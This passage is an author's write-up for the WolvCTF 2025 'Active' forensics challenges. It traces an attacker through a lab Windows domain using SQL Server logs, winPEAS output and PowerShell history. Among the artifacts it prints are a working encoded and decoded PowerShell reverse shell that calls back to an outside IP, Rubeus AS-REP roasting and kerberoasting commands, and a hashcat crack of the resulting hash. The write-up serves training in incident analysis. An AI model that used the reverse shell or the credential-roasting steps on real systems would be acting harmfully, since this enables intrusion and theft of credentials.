



+++
author = "dree"
title = "WolvCTF 2025 Active Series"
date = "2025-03-24"
tags = [
    "Forensics",
]
+++

Author Writeups for the Active Series from WolvCTF 2025

---
## Active 1: Domain Access


### Challenge Description

Oh no! Our beloved `wolvctf.corp` domain has been infiltrated! How did they manage to break into our domain controller? Please figure out how they got access into the domain controller box, how a shell was achieved, and how a domain account was obtained.

We have provided just the user accounts because the attacker did not cover their tracks very well.

`Users_Backup.zip`'s password is `wolvctf`

`sha256sum:709b595d63ac9660b9c67de357337ee55ffd6658412b8c5c27b35efc05617893`

_Flag is split up into 3 parts._

[https://drive.google.com/drive/folders/11MzaiPYvosPSYlKzqqAVX_muiv5p4yQA?usp=sharing](https://drive.google.com/drive/folders/11MzaiPYvosPSYlKzqqAVX_muiv5p4yQA?usp=sharing)

### Solve

#### Part 1 - Infiltration

```console
┌──(kali㉿kali)-[~/ctf/Active/challenge/Users - Copy]
└─$ cat mssql_service/MSSQL13.SQLEXPRESS/MSSQL/Log/ERRORLOG
��2025-03-18 12:28:55.12 Server      Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64) 
        Mar 18 2018 09:11:49 
        Copyright (c) Microsoft Corporation
        Express Edition (64-bit) on Windows Server 2019 Standard Evaluation 10.0 <X64> (Build 17763: ) (Hypervisor)

2025-03-18 12:28:55.13 Server      UTC adjustment: -7:00

...

2025-03-18 12:29:14.04 Server      Software Usage Metrics is disabled.
2025-03-18 13:28:27.74 spid52      Using 'dbghelp.dll' version '4.0.5'
2025-03-18 19:51:14.50 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:14.50 Logon       Login failed for user 'root'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:15.13 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:15.13 Logon       Login failed for user 'test'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:15.74 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:15.74 Logon       Login failed for user 'admin'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:16.32 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:16.32 Logon       Login failed for user 'bruteforcing'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:17.00 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:17.00 Logon       Login failed for user 'this'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:17.85 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:17.85 Logon       Login failed for user 'is'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:18.43 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:18.43 Logon       Login failed for user 'the'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:19.05 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:19.05 Logon       Login failed for user 'first'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:19.69 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:19.69 Logon       Login failed for user 'part'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:20.31 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:20.31 Logon       Login failed for user 'w'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:20.86 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:20.86 Logon       Login failed for user 'c'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:21.68 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:21.68 Logon       Login failed for user 't'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:22.30 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:22.30 Logon       Login failed for user 'f'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:23.12 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:23.12 Logon       Login failed for user '{'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:23.96 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:23.96 Logon       Login failed for user 'd'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:24.56 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:24.56 Logon       Login failed for user '0'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:25.22 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:25.22 Logon       Login failed for user 'n'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:25.82 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:25.82 Logon       Login failed for user 't'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:26.49 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:26.49 Logon       Login failed for user '_'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:27.21 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:27.21 Logon       Login failed for user '3'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:27.93 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:27.93 Logon       Login failed for user 'n'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:28.60 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:28.60 Logon       Login failed for user '4'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:29.11 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:29.11 Logon       Login failed for user 'b'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:29.64 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:29.64 Logon       Login failed for user 'l'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:30.29 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:30.29 Logon       Login failed for user '3'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:55.62 spid54      Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
2025-03-18 19:51:55.63 spid54      Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
2025-03-18 19:51:58.29 spid54      Configuration option 'xp_cmdshell' changed from 1 to 0. Run the RECONFIGURE statement to install.
2025-03-18 19:51:58.33 spid54      Configuration option 'show advanced options' changed from 1 to 0. Run the RECONFIGURE statement to install.
2025-03-18 21:14:25.14 spid5s      SQL Server is terminating in response to a 'stop' request from Service Control Manager. This is an informational message only. No user action is required.
2025-03-18 21:14:26.61 spid13s     Service Broker manager has shut down.
2025-03-18 21:14:26.65 spid5s      .NET Framework runtime has been stopped.
2025-03-18 21:14:27.51 spid5s      SQL Server shutdown has been initiated
2025-03-18 21:14:27.53 spid5s      SQL Trace was stopped due to server shutdown. Trace ID = '1'. This is an informational message only; no user action is required.
                                 
```

If we look at the invalid logons, we can see the attacker trying to brute force credentials. This spells out the first part of the flag, 

```
wctf{d0nt_3n4bl3_
```

---

#### Part 2 - Shell Access

```
┌──(kali㉿kali)-[~/ctf/Active/challenge/Users - Copy]
└─$ cat Public/Documents/winPEASOutput.txt                 
��ANSI color bit for Windows is not set. If you are executing this from a Windows terminal inside the host you should run 'REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1' and then start a new CMD
Long paths are disabled, so the maximum length of a path supported is 260 chars (this may cause false negatives when looking for files). If you are admin, you can enable it with 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\FileSystem /v VirtualTerminalLevel /t REG_DWORD /d 1' and then start a new CMD

...
```


Lets check the processes information in winpeas to see if any `XP_CMDSHELl` commands were run by the MSSQL user:

```
P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%c% Processes Information `%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%                                                                                                   

T%P%P%P%P%P%P%P%P%P%P%c% Interesting Processes -non Microsoft-
Z% Check if any interesting processes for memory dump or if you could overwrite some binary running https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#running-processes                                                         
    conhost(7856)[C:\Windows\system32\conhost.exe] -- POwn: MSSQL$SQLEXPRESS
    Command Line: \??\C:\Windows\system32\conhost.exe 0x4
   =================================================================================================

    cmd(1620)[C:\Windows\system32\cmd.exe] -- POwn: MSSQL$SQLEXPRESS
    Command Line: "C:\Windows\system32\cmd.exe" /c powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADEAOAA3AC4AMQAyADgAIgAsADEANAAzADMAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAZQBuAGMAbwBkAGUAZABfAGYAbABhAGcAcAB0ADIAIAA9ACAAIgBYADMAaABRAFgAMgBOAHQAWgBIAE4AbwBNAHoARQB4AFgAMwBjAHgAZABHAGgAZgBaAEQATgBtAFkAWABWAHMAZABGADkAagBjAGoATgBrAGMAMQA4AHcAYwBsADgAPQBzACIAOwAkAGYAbABhAGcAcAB0ADIAIAA9ACAAWwBTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBFAG4AYwBvAGQAaQBuAGcAXQA6ADoAVQBUAEYAOAAuAEcAZQB0AFMAdAByAGkAbgBnACgAWwBTAHkAcwB0AGUAbQAuAEMAbwBuAHYAZQByAHQAXQA6ADoARgByAG8AbQBCAGEAcwBlADYANABTAHQAcgBpAG4AZwAoACQAZQBuAGMAbwBkAGUAZABfAGYAbABhAGcAcAB0ADIAKQApADsAVwByAGkAdABlAC0ATwB1AHQAcAB1AHQAIAAkAGYAbABhAGcAcAB0ADIAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==                                                                         
   =================================================================================================                                   

    winPEASx64(8144)[C:\Users\Public\Documents\winPEASx64.exe] -- POwn: MSSQL$SQLEXPRESS -- isDotNet
    Permissions: MSSQL$SQLEXPRESS [AllAccess], Service [WriteData/CreateFiles]
    Possible DLL Hijacking folder: C:\Users\Public\Documents (Service [WriteData/CreateFiles])
    Command Line: "C:\Users\Public\Documents\winPEASx64.exe" all
   ================================================================================                    
```


to decode https://cyberchef.org/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)Decode_text('UTF-16LE%20(1200)')


```powershell
$client = New-Object System.Net.Sockets.TCPClient("192.168.187.128",1433);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$encoded_flagpt2 = "X3hQX2NtZHNoMzExX3cxdGhfZDNmYXVsdF9jcjNkc18wcl8=s";$flagpt2 = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($encoded_flagpt2));Write-Output $flagpt2;$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

We can see the `flagpart2` variable in there


Flag part 2:

```
_xP_cmdsh311_w1th_d3fault_cr3ds_0r_
```

---

#### Part 3 - Getting a domain user

Read winpeas output again
```
┌──(kali㉿kali)-[~/ctf/Active/challenge/Users - Copy]
└─$ cat Public/Documents/winPEASOutput.txt                 
��ANSI color bit for Windows is not set. If you are executing this from a Windows terminal inside the host you should run 'REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1' and then start a new CMD
Long paths are disabled, so the maximum length of a path supported is 260 chars (this may cause false negatives when looking for files). If you are admin, you can enable it with 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\FileSystem /v VirtualTerminalLevel /t REG_DWORD /d 1' and then start a new CMD

...
```


```
T%P%P%P%P%P%P%P%P%P%P%c% Looking for AutoLogon credentials
    Some AutoLogon credentials were found
    DefaultDomainName             :  WOLVCTF
    DefaultUserName               :  WOLVCTF\Dan
    DefaultPassword               :  DansSuperCoolPassw0rd!!
    AltDefaultUserName            :  loot-in-hex:656e61626c335f347574306c6f67306e5f306b3f3f213f7d

```


Here we can see a domain user's credentials in the Autologon! And some loot in the `AltDefaultUserName`, Lets decode using cyberchef:

https://cyberchef.org/#recipe=From_Hex('Auto')&input=
NjU2ZTYxNjI2YzMzNWYzNDc1NzQzMDZjNmY2NzMwNmU1ZjMwNmIzZjNmMjEzZjdk


Flag part 3:

```
enabl3_4ut0log0n_0k??!?}
```

---

#### Final Flag

```
wctf{d0nt_3n4bl3_xP_cmdsh311_w1th_d3fault_cr3ds_0r_enabl3_4ut0log0n_0k??!?}
```

## Active 2: Lateral Movement


### Challenge Description
The attacker moved laterally throughout our domain. I'm hearing reports from other members of `wolvctf.corp` that 3 lower level accounts were compromised (excluding the 2 higher level compromised accounts). Figure out which ones these are, and follow the attacker's steps to collect the flag.

`Users_Backup.zip`'s password is `wolvctf`

`sha256sum:709b595d63ac9660b9c67de357337ee55ffd6658412b8c5c27b35efc05617893`

_Flag is split up into 3 parts._

[https://drive.google.com/drive/folders/11MzaiPYvosPSYlKzqqAVX_muiv5p4yQA?usp=sharing](https://drive.google.com/drive/folders/11MzaiPYvosPSYlKzqqAVX_muiv5p4yQA?usp=sharing)

### Solve

#### Part 1: Enumerating Dan's Account

Since the attacker got access to dan's account, lets check their powershell logs for any actions

```
┌──(kali㉿kali)-[~/ctf/Active/challenge/Users - Copy]
└─$ cat dan/AppData/Roaming/Microsoft/Windows/PowerShell/PSReadLine/ConsoleHost_history.txt
cd Desktop
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\dan\Documents -OutputPrefix "wolvctf_audit"
powershell -ep bypass
.\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\dan\Documents -OutputPrefix "wolvctf_audit"
Import-Module \SharpHound.ps1
Import-Module .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\dan\Documents -OutputPrefix "wolvctf_audit"
.\Rubeus.exe asreproast /user:emily /domain:wolvctf.corp /dc:DC01.wolvctf.corp > asreproast.output
 .\Rubeus.exe kerberoast > kerberoast.output
runas /User:wolvctf\emily cmd

```


Looks like they saved hashes obtained by Rubeus in some files, lets check the ASREPRoasted one:


```
┌──(kali㉿kali)-[~/ctf/Active/challenge/Users - Copy]
└─$ cat dan/Desktop/asreproast.output 
��
   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0 


[*] Action: AS-REP roasting

[*] Target User            : emily
[*] Target Domain          : wolvctf.corp
[*] Target DC              : DC01.wolvctf.corp

[*] Using domain controller: DC01.wolvctf.corp (fe80::af8f:bc46:1257:36be%5)
[*] Building AS-REQ (w/o preauth) for: 'wolvctf.corp\emily'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$emily@wolvctf.corp:34C3460101DA5A3081FA4F6518A0ECE1$619944A029EF908C7
      8A80E2559C06788E2D86AEB1C94CD97E4540E5EA57C550C7FBD768D6EA24DBC66CFC6B8A9E39C364
      39CA4B50DCF29F3C078785F876835B239B3628F561D080F83294C9A3BC8D1C4DEC538A15339257DC
      AAB20F33EE168BDEA0671C4AB92DA6B089D7700E7BE42564706BFA903654EDF11376C1994BBE6B9C
      C65E53275EF3148B638AA5A52284E29912C3CA2171FD50FBD6929511416B51F8C4F8CB9383DA74E8
      DB3B0493A2654093C44BC399695525DD90E271A90C9992024A1D05E4188EC588663D2D849142AED6
      5C5B77C38ED3DC7BB65178A565248F199B5DC2D382D2DA016DAD023

[*_*] d2N0Znthc3IzcHIwNHN0M2Q/Xw==               
```


The attacker ran Rubeus to obtain the ASREPRoasted hash, and appended the first part of the flag to the output file:

https://cyberchef.org/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)&input=ZDJOMFpudGhjM0l6Y0hJd05ITjBNMlEvWHc9PSA



Flag part 1:

```
wctf{asr3pr04st3d?_
```

---

#### Flag Part 2: Enumerating Emily's account

Lets clean up the hash from before

```
$krb5asrep$emily@wolvctf.corp:34C3460101DA5A3081FA4F6518A0ECE1$619944A029EF908C78A80E2559C06788E2D86AEB1C94CD97E4540E5EA57C550C7FBD768D6EA24DBC66CFC6B8A9E39C36439CA4B50DCF29F3C078785F876835B239B3628F561D080F83294C9A3BC8D1C4DEC538A15339257DCAAB20F33EE168BDEA0671C4AB92DA6B089D7700E7BE42564706BFA903654EDF11376C1994BBE6B9CC65E53275EF3148B638AA5A52284E29912C3CA2171FD50FBD6929511416B51F8C4F8CB9383DA74E8DB3B0493A2654093C44BC399695525DD90E271A90C9992024A1D05E4188EC588663D2D849142AED65C5B77C38ED3DC7BB65178A565248F199B5DC2D382D2DA016DAD023
```

and attempt to crack it with rockyou

```
┌──(kali㉿kali)-[~/ctf/Active/challenge/scratch]
└─$ sudo hashcat -m 18200 asreproast.hash /usr/share/wordlists/rockyou.txt --force                         
[sudo] password for kali: 
hashcat (v6.2.6) starting

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.

...

$krb5asrep$emily@wolvctf.corp:34c3460101da5a3081fa4f6518a0ece1$619944a029ef908c78a80e2559c06788e2d86aeb1c94cd97e4540e5ea57c550c7fbd768d6ea24dbc66cfc6b8a9e39c36439ca4b50dcf29f3c078785f876835b239b3628f561d080f83294c9a3bc8d1c4dec538a15339257dcaab20f33ee168bdea0671c4ab92da6b089d7700e7be42564706bfa903654edf11376c1994bbe6b9cc65e53275ef3148b638aa5a52284e29912c3ca2171fd50fbd6929511416b51f8c4f8cb9383da74e8db3b0493a2654093c44bc399695525dd90e271a90c9992024a1d05e4188ec588663d2d849142aed65c5b77c38ed3dc7bb65178a565248f199b5dc2d382d2da016dad023:youdontknowmypasswordhaha
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$emily@wolvctf.corp:34c3460101da5a3081fa4...dad023
Time.Started.....: Wed Mar 19 00:58:29 2025, (5 secs)
Time.Estimated...: Wed Mar 19 00:58:34 2025, (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   514.2 kH/s (1.02ms) @ Accel:256 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 2574336/14344385 (17.95%)
Rejected.........: 0/2574336 (0.00%)
Restore.Point....: 2573312/14344385 (17.94%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: youkids -> youarehot1
Hardware.Mon.#1..: Util: 64%

Started: Wed Mar 19 00:58:27 2025
Stopped: Wed Mar 19 00:58:36 2025

```


Now that Emily's password was able to be obtained via rockyou, lets check her powershell history to see what the attacker did next:

```
┌──(kali㉿kali)-[~/ctf/Active/challenge/Users - Copy]
└─$ cat emily/AppData/Roaming/Microsoft/Windows/PowerShell/PSReadLine/ConsoleHost_history.txt
cd C:\Users\emily
tree /f /a > tree.txt
type tree.txt
cd Documents
dir
type README
echo "James asked me to keep his password secret, so I made sure to take extra precautions." >> C:\Users\Public\loot.txt
echo "Note to self: Password for the zip is same as mine, with 777 at the end" >> C:\Users\Public\loot.txt
del README
cp .\important.7z C:\Users\Public
del C:\Users\Public\loot.txt
del C:\Users\Public\important.7z
runas /User:wolvctf\james cmd

```


So it looks like the attacker deleted a README file containing the following:

```
James asked me to keep his password secret, so I made sure to take extra precautions.

Password for the zip is same as mine, with 777 at the end
```

In her directory we also see the following

```
──(kali㉿kali)-[~/ctf/Active/challenge/Users - Copy]
└─$ cat emily/tree.txt                                                                       
��Folder PATH listing
Volume serial number is 1E33-4D3F
C:.
|   tree.txt
|   
+---Desktop
+---Documents
|       important.7z
|       README
|       
+---Downloads
+---Favorites
+---Links
+---Music
+---Pictures
+---Saved Games
\---Videos
                                                                                                                                                                                             
┌──(kali㉿kali)-[~/ctf/Active/challenge/Users - Copy]
└─$ 

```


Luckily for us, the `important.7z` is still there. Since we know her password, lets try using what the README said and do the following


```
┌──(kali㉿kali)-[~/ctf/Active/challenge/Users - Copy]
└─$ cp emily/Documents/important.7z ../scratch/    
                                                                               
┌──(kali㉿kali)-[~/ctf/Active/challenge/Users - Copy]
└─$ cd ../scratch                                  
                             
┌──(kali㉿kali)-[~/ctf/Active/challenge/scratch]
└─$ 7z x -p"youdontknowmypasswordhaha777" important.7z

7-Zip 24.09 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-11-29
 64-bit locale=en_US.UTF-8 Threads:128 OPEN_MAX:1024, ASM

Scanning the drive for archives:
1 file, 2220152 bytes (2169 KiB)

Extracting archive: important.7z
--
Path = important.7z
Type = 7z
Physical Size = 2220152
Headers Size = 264
Method = LZMA2:3m 7zAES
Solid = +
Blocks = 1

Everything is Ok

Folders: 1
Files: 3
Size:       2252831
Compressed: 2220152

```


Looks like the extraction worked!

Now lets see if there's anything we can do with these files

```
┌──(kali㉿kali)-[~/…/Active/challenge/scratch/important]
└─$ binwalk car.jpeg    

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             JPEG image data, JFIF standard 1.01
9296          0x2450          JPEG image data, JFIF standard 1.01

                                                                                                                                                                                             
┌──(kali㉿kali)-[~/…/Active/challenge/scratch/important]
└─$ dd if=car.jpeg of=extracted_hidden.jpg bs=1 skip=9296
67772+0 records in
67772+0 records out
67772 bytes (68 kB, 66 KiB) copied, 0.120803 s, 561 kB/s
                                                              
```


Binary walking `car.jpg` reveals another photo hidden inside. This contains James's password, along with the second part of the flag

```
